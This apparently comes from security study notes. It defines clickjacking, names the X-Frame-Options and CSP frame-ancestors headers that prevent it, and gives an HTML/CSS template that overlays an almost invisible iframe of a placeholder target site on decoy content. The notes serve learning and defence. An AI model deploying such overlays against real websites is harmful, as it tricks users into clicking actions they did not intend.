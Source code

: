 # Clickjacking

## General

<p>
Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
</p>
</br> 

  * Preventions:
  * X-Frame-Options: deny/sameorigin/allow-from
  * CSP: policy/frame-ancestors 'none/self/domain.com'


```markup
# An example using the style tag and parameters is as follows:
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```

